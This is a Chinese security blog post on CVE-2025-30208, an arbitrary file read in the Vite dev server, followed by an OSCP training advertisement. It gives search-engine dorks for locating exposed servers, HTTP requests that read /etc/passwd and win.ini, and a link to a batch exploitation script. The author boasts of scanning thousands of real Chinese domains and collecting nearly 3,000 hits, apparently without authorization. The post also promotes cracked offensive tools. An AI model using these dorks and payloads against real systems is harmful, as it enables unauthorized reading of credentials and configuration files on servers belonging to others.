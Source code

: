 #  CVE-2025-30208，资产巨多（中国域名资产：12635+），附POC+批量检测脚本   
原创 尘佑不尘  泷羽Sec-尘宇安全   2025-03-29 13:32  
  
#  前言   
  
这个CVE-2025-30208资产真的巨多，而且出货量也高。  
  
几天前的晚上，我就全部跑了一遍了，导出了12635条中国域名资产，总共大概跑了9000多条，出了大概快3000了，出货量很高，详情请看下文  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3XFVUDiag3y7Cx5CHAjX2AX71jXQl1JtAQgXJ4W35MSKGSyr3mzQBwTA/640?wx_fmt=png&from=appmsg "")  
### 往期推荐  
  
[oscp+：简介、考试形式、对比其他证书、政策变动](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247488607&idx=1&sn=5f5e5962a727e42c5dbe2e6345f05683&scene=21#wechat_redirect)  
  
  
[灵兔宝盒二开 | 286渗透工具合集，新增OneCS-49_尊享版、vshell4.9.3破解版、Godzilla特战版等24款](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247489169&idx=1&sn=497d7862c41cd6248d71a7ac1f61ed42&scene=21#wechat_redirect)  
  
  
[PotatoTool一款功能强大的网络安全综合工具支持免杀、自定义内存马、提权、扫描、一键解密、AI分析、溯源等等](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247489044&idx=1&sn=d3c8af030840190ec31d263a36e8895f&scene=21#wechat_redirect)  
  
  
[14w+poc，nuclei全家桶：nuclei模版管理工具+Nuclei](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247485366&idx=1&sn=d000689bc42cb4931657c9a081deebb5&scene=21#wechat_redirect)  
  
  
[一款集成了fofa、鹰图平台、360quake的信息收集工具 | NoMoney，工具涉及的范围在以上平台中都是免费的，安装使用](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247490142&idx=1&sn=1ecdb04eebda46659e5300779a7da310&scene=21#wechat_redirect)  
  
  
[红队武器库VulToolsKit全家桶：图形化页面+自己额外添加的一些工具](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247487982&idx=1&sn=57e323c285f66c87e46e496148307db9&scene=21#wechat_redirect)  
  
  
[fscan全家桶：FscanPlus，fs，fscan适用低版本系统，FscanParser](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247484721&idx=1&sn=a0bde50df32ae2df7f6e8fdb4a0ddb3a&scene=21#wechat_redirect)  
  
  
[ctf综合利用工具，集成多款AI，94GB大小量大管饱：ctftools-all-in-one_proV2](https://mp.weixin.qq.com/s?__biz=Mzk1NzE0ODk3Nw==&mid=2247488292&idx=1&sn=0d2517525b74c39bf4cda5c565ca2638&scene=21#wechat_redirect)  
  
#  漏洞信息   
  
CVE-2025-30208是**Vite开发服务器**  
中存在的一个高危逻辑漏洞，允许攻击者通过构造特殊的URL绕过文件访问限制，读取服务器上的任意文件（如配置文件、密钥、数据库凭据等）。该漏洞的利用条件需满足两点：开发服务器通过--host或**server.host配置**  
暴露至网络（非默认配置），且使用受影响版本的Vite由于Vite广泛应用于**Vue、React等主流前端框架**  
，潜在影响范围涉及数十万级资产。  
#  漏洞原理   
  
漏洞源于Vite在处理URL查询参数时的逻辑缺陷。当请求路径包含特定参数（**如?raw??或?import&raw??**）时，Vite对URL尾部分隔符（如?和&）的正则匹配不严格，导致安全检查被绕过。例如，攻击者可构造类似/@fs/etc/passwd?raw??  
的请求，利用@fs机制（本用于访问项目允许列表内的文件）读取系统敏感文件官方修复方案通过正则表达式/[?&]+$/  
移除URL末尾的冗余分隔符，从而阻断绕过路径。  
#  漏洞POC   
## 漏洞特征  
  
**fofa&&quake**  
```
body="/@vite/client"

```  
  
**鹰图Hunter**  
```
web.body="/@vite/client"

```  
## 影响范围  
- **6.2.0 <= Vite <= 6.2.2**  
  
- **6.1.0 <= Vite <= 6.1.1**  
  
- **6.0.0 <= Vite <= 6.0.11**  
  
- **5.0.0 <= Vite <= 5.4.14**  
  
- **Vite <= 4.5.9**  
  
## POC  
  
Linux下  
```
GET /@fs/etc/passwd?import&raw?? HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3S66zHLxGLUXBIguicrJ9ESeHSdUuvyADVu6avZX9HBtk2rOhfTUnjlw/640?wx_fmt=png&from=appmsg "")  
  
window下  
```
GET /@fs/C://windows/win.ini?import&raw?? HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad338NGMjtOlbhz9PibxUSTtS0ZLBNA8Fj5aqNL4FZG6VxV7a0iczqJQCZg/640?wx_fmt=png&from=appmsg "")  
  
**注意再进行关键字搜索：**  
以Linux举例  
```
The server is configured with a public base URL of

```  
  
有一些非常有好的提示，告诉我们路径错了，应该安装它这样![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3doQL2CQCPdicyY146FDt6iaib9DxRmJxvmsELw6MDibibUTcprbumZ42Xbw/640?wx_fmt=png&from=appmsg "")  
**注意在进行指定https搜索**  
```
plain HTTP request

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3ibRricyficYwgJbNtPQlzNVRPHH363U77ricfqV7hFcJr0yLgunMhxKBdA/640?wx_fmt=png&from=appmsg "")  
  
总共大概跑了9000多条，出了大概快3000了，出货量很高，不过修的也是真的快，估计修了一半多了  
#  批量检测脚本   
  
项目地址  
```
https://github.com/ThumpBo/CVE-2025-30208-EXP

```  
  
或者后台发送**CVE-2025-30208**  
获取  
#  oscp+培训   
  
**在boss直聘搜索oscp，cisp进行对比**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3mcfC1xIYvjvJrQP2XheciamNOD742yQogs5KMUhibDzaGdPcxg0RTxmQ/640?wx_fmt=png&from=appmsg "")  
  
在你还在犹豫是否要报名OSCP的时候，别人已经行动了，在学习完oscp培训和泷羽sec的红队全栈课后，去考OSCP拿下竞争力，**别人月入过几万了**  
而你却还在为没有能力证明和没有工作而发愁，那为什么不行动起来呢?**4000的价格比外面培训低了一半多，在加活动更低，也就这一次机会，后面都不会有了**  
，就明年的这个时候才考虑举办。  
### oscp+培训福利  
  
1、报名一次oscp培训即可**无限学习下一期**  
，下下一期，学到你会再去考试oscp  
  
2、学生党想找工作的或者上班的想换工作的学完oscp可以找泷羽sec推荐（自己有技术实力就行）  
  
3、4000培训费用证明学生，**可以分期，无利息**  
，还优惠500  
  
4、**拥有CISSP、OSCP、OSEP等多项专家认证的在职高级红队泷老师**  
的就业方向指导  
  
5、官方的oscp+有团购优惠，10人组团可以打8折优惠，如果在我们这里报了培训，到时候报名的时候就可以联系大陆官方负责人给你们凑团购，8折团购可以便宜几千  
  
6、感兴趣的师傅们可以**找我咨询**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HG5jOHGyP3gENZoywW5fGu9eVzjerad3pA4IysKETCe06zKWqF9iaMAAXWEfib2H58ibwWV0LPQlPCySx4bQ0AP8Q/640?wx_fmt=png&from=appmsg "")  
## 学习交流群  
  
可以加入学习交流群，里面有学习一些资源。泷老师也在里面，有什么学习方面不会的大家可以一起交流，共同进步。如果问题比较困难可以问泷老师，他会帮忙解答的。如果二维码过期，后台发送 安全屋 获取新的二维码。  
  
由于直接放群二维码有很多广告加进来，如果想加入学习交流群的师傅请扫码添加我为好友，再拉你进群，避免广告进入。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/HG5jOHGyP3gENZoywW5fGu9eVzjerad3qhbibAOtJVpQOAF1xDRb1ibdHbPOwNgMN2ibalIwCgaeicj7hnwmv06Jdg/640?wx_fmt=jpeg&from=appmsg "")  
  
我们红队全栈公益课链接：https://space.bilibili.com/350329294  
  
  
